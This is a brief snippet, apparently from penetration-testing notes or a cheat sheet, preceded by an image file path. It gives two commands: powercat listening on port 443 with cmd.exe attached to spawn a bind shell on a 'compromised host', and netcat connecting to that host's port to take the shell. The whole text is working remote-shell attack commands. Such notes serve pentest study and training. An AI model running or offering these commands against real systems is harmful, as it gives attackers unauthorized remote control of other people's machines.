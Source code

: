 # 1) Spawn a bind shell on compromised host
```sh
powercat -l -p 443 -e cmd.exe
```

# 2) connect to bind shell on remote host
```sh
RHOST=10.11.0.4
RPORT=443
nc -nv $RHOST $RPORT
```
